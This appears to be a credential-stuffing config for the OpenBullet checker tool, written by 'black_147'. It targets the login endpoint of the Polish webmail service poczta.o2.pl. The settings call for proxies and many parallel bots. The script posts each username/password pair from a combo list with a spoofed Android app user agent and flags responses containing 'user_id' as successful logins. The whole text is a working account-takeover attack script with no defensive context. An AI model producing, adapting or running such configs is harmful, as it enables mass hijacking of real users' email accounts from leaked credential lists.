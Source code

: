 [SETTINGS]
{
  "Name": "o2.pl",
  "SuggestedBots": 100,
  "MaxCPM": 0,
  "LastModified": "2022-05-22T14:33:21.5348299+02:00",
  "AdditionalInfo": "",
  "RequiredPlugins": [],
  "Author": "black_147",
  "Version": "1.2.2",
  "SaveEmptyCaptures": false,
  "ContinueOnCustom": false,
  "SaveHitsToTextFile": false,
  "IgnoreResponseErrors": false,
  "MaxRedirects": 8,
  "NeedsProxies": true,
  "OnlySocks": false,
  "OnlySsl": false,
  "MaxProxyUses": 0,
  "BanProxyAfterGoodStatus": false,
  "BanLoopEvasionOverride": -1,
  "EncodeData": false,
  "AllowedWordlist1": "",
  "AllowedWordlist2": "",
  "DataRules": [],
  "CustomInputs": [],
  "ForceHeadless": false,
  "AlwaysOpen": false,
  "AlwaysQuit": false,
  "QuitOnBanRetry": false,
  "DisableNotifications": false,
  "CustomUserAgent": "",
  "RandomUA": false,
  "CustomCMDArgs": ""
}

[SCRIPT]
REQUEST POST "https://poczta.o2.pl/login/v1/token" 
  CONTENT "login=<USER>&password=<PASS>" 
  CONTENTTYPE "application/x-www-form-urlencoded" 
  HEADER "Host: poczta.o2.pl" 
  HEADER "Accept: application/json" 
  HEADER "User-Agent: Pocztao2/2.4.2 (samsung; SM-N975F; Android 7.1.2; Phone) 0 CT/1 Res/1280x720 PPI/240" 
  HEADER "Content-Type: application/x-www-form-urlencoded" 
  HEADER "Content-Length: 44" 
  HEADER "Accept-Encoding: gzip, deflate" 
  HEADER "Connection: close" 

KEYCHECK 
  KEYCHAIN Success OR 
    KEY "user_id" 
  KEYCHAIN Failure OR 
    KEY "{}" 

